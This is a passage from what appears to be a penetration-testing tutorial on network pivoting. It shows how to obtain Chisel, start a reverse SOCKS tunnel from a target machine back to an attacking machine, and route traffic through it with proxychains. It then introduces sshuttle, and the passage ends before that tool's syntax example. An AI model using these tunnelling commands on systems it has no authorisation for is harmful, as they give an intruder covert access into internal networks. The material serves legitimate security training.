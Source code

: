 To begin using Chisel, we must first download the tool. If you utilize the stable release or docker, you will not need to download any  dependencies. If you compile from source, you will need to install a few dependencies outlined on their GitHub. There are three common ways of  obtaining the tool, outlined below.

- Stable release: https://github.com/jpillora/chisel/releases
- Docker: `docker run --rm -it jpillora/chisel --help`
- Source: `go get -v [github.com/jpillora/chisel](<http://github.com/jpillora/chisel>)`

To set up the Chisel server on a Windows machine, you will need to get the Windows binary and vice versa.

To create a SOCKs server with Chisel, you will only need two commands ran  on the target and the attacking machine, outlined below.

On the attacking machine: `./chisel server -p 8000 --reverse`

On the target machine: `./chisel client <SERVER IP>:8000 R:socks`

Now that we have a SOCKs server set up, we need to interpret and  manage these connections. This is where proxychains come in. Proxychains allows us to connect to the SOCKs server and route traffic through the  proxy in the command line. To add the SOCKs server to proxychains, you  will need to edit `/etc/proxychains.conf`. You can see an example configuration below.

![img](./assets/PLDdyI8.png)

You will need to add the following line to the configuration file: `socks5 127.0.0.1 1080`

To use the proxy, you will need to prepend any commands you want to route  through the proxy with proxychains. An example usage can be found below.

Example usage: `proxychains curl http://<IP>`

The second tool we will be looking at is sshuttle. Sshuttle is unique in  its approaches to pivoting because all of its techniques are done  remotely from the attacking machine and do not require the configuration of proxychains. However, a few of the disadvantages of sshuttle are  that it will only work if there is an ssh server running on the machine, and it will not work on Windows hosts. You can download sshuttle from  GitHub, https://github.com/sshuttle/sshuttle

Using sshuttle is relatively easy and only requires one command. For sshuttle to work, you only need to specify one parameter, -r . With this  parameter, you will specify the user and target like you would for a  standard ssh connection. You will also need to specify the CIDR range of the network; this does not require a parameter. Find an example of  syntax below.
